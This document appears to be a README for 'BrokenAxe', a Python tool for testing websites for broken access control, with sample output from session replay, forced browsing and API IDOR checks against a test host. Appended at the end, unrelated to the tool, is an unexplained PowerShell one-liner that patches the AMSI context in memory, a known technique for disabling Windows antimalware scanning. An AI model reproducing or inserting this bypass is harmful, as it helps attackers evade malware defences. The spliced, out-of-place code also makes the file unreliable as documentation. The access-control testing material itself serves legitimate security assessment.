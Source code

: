 <h1>BROKENAXE</h1>
<h3>Broken Access Control vulnerability definition</h3>
<p>1. Directory & Heuristics scanning<br>
2. Forced Browsing<br>
3. Insecure Direct Object Reference IDOR<br>
4. API-IDOR<br>
5. Weak API controls - unauthenticated<br>
6. Weak API controls - authenticated<br>
7. Session management<br></p>

<p>How to DEMONSTRATE: create a BAC-vulnerable website<br>
How to IDENTIFY: create tool to determine vulnerability<br>
How to DISPLAY: generate VAPT report according to findings
</p>

<h3>Methodology of approach:</h3>
<p>Scan website<br>
Raise possible vectors according to heuristics <br>
Based on scan findings, run IDOR checks against it<br>
Upon IDOR checks, test for Session Management weaknesses with reference to the scan findings<br>
Forced browsing can be tested to see if user has access to the provided admin-protected portal<br>
API testing will come after. Based on scan findings, URLs with queries present will be extracted and tested against API endpoints; typically /api/, /v1/, /v2/ etc.<br>
Findings will be collated into a dictionary for report generation<br>
</p>

<h1>User Manual</h1>
python main.py https://<b>WEBPAGE_URL</b>/ -u <b>USERNAME_PARAMETER</b>:<b>USERNAME_VALUE</b> <b>PASSWORD_PARAMETER</b>:<b>PASSWORD_VALUE</b> --auth <b>LOGIN_ENDPOINT</b> (.php etc)

e.g. python main.py https://35.212.180.132/ -u email:webadministrator@ferriswheelweb.com -p pwd:admin! --auth process_login.php

Available commands:
-
target: Hostname or IP address [<b>MANDATORY</b>]<br>
-u, --username: Username field and value (e.g.) email:steve@email.com<br>
-p, --password: Password field and value (e.g.) pwd:steve<br>
--additional: Additional parameters to be passed to the login page<br>
--auth: Authentication endpoint (e.g. process_login.php)<br>
-d, --depth: Max scanning depth (default: 1)<br>
-t, --threads: Number of threads (default: 5)<br>

Usecase flow
-
<b>Directory & Heuristic Scan</b><br>
Directory & Heuristic scans will be executed...

<p><b>Session Management</b><br>
Test for session replay (Default: N): <br>
Enter username (optional): steve@email.com<br>
Enter password (optional): steve<br>

<h3>For Session management, User can choose to conduct the session replay attacks or not. Additionally, user may supply credentials to enhance testing phase to check for credential-protected portals<br></h3>

<h3>BrokenAxe will generate a list of URLs available for testing, if requested<br></h3>
BrokenAxe to provide a list to test?: (User can specify Y/N)<br>
URL                                                         Expected Code  Actual Code<br>
https://35.212.180.132/logout.php                           200            302<br>
https://35.212.180.132/transaction_history.php              200            302<br>
https://35.212.180.132/new_listing.php                      200            302<br>
https://35.212.180.132/shopping_cart.php?user_id=19         200            302<br>
https://35.212.180.132/console.php                          200            302<br>
https://35.212.180.132/uploads                              200            301<br>
https://35.212.180.132/api                                  200            301<br>
Attempt on https://35.212.180.132/logout.php ? (Default [N]): N
<h3>User can put N, to select any other links provided within the URLs provided<br></h3>



Enter protected page (required): https://35.212.180.132/console.php<br>
[ ] Captured Session: {'PHPSESSID': '71tqijie10jhb2nlhph3tjtuk7'}<br>
[ ] Successfully logged in as new user. Session cookies: {'PHPSESSID': '392ebtl27t4k163eor75mm7s40'}<br>
[ ] Changed cookies to captured cookies: {'PHPSESSID': '71tqijie10jhb2nlhph3tjtuk7'}<br>
[ ] Session replay attack successful! unatuhorised access to page detected.<br>

<p><b>Forced Browsing</b><br>
Test forced browsing? (Default [N]): y<br>
Enter the page to test for forced browsing (e.g., admin.php): console.php<br>
Forced browsing to admin-protected portal: https://35.212.180.132/console.php<br>

<p><b>API Testing</b><br>
Test for vulnerable API endpoints? (Default [N]): (User can state Y/N)<br>
<h3>Scanning for API endpoints will be executed...<br></h3>
Test for Weak API controls? (Default [N]): (User can state Y/N)<br>
Enter the username (optional): steve@email.com<br>
Enter the password (optional): steve<br>

Invoking API with account: steve@email.com...<br>

[+] Testing API: https://35.212.180.132/api/profile/?account_id=19     (Status: 200)<br>
[+] Testing API: https://35.212.180.132/api/cart/?user_id=19     (Status: 200)<br>

Invoking API with unauthenticated session...<br>

[+] Testing API: https://35.212.180.132/api/profile/?account_id=19    (Status: 401)<br>
[+] Testing API: https://35.212.180.132/api/cart/?user_id=19    (Status: 401)<br>

Test for IDOR in API endpoints? (Default [N]): y<br>
    [!] Potential api-idor found: https://35.212.180.132/api/profile/?account_id=2<br>
    [!] Potential api-idor found: https://35.212.180.132/api/profile/?account_id=3<br>
    [!] Potential api-idor found: https://35.212.180.132/api/profile/?account_id=4<br>
    [!] Potential api-idor found: https://35.212.180.132/api/profile/?account_id=6<br>
    [!] Potential api-idor found: https://35.212.180.132/api/profile/?account_id=8<br>
    [!] Potential api-idor found: https://35.212.180.132/api/profile/?account_id=9<br>
    [!] Potential api-idor found: https://35.212.180.132/api/profile/?account_id=20<br>
    [!] Potential api-idor found: https://35.212.180.132/api/profile/?account_id=21<br>
    [!] Potential api-idor found: https://35.212.180.132/api/cart/?user_id=2<br>
    [!] Potential api-idor found: https://35.212.180.132/api/cart/?user_id=9<br>
    [!] Potential api-idor found: https://35.212.180.132/api/cart/?user_id=20<br>

<p><b>Report Generation</b><br>
PDF report generated: vapt_report.pdf<br>

$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

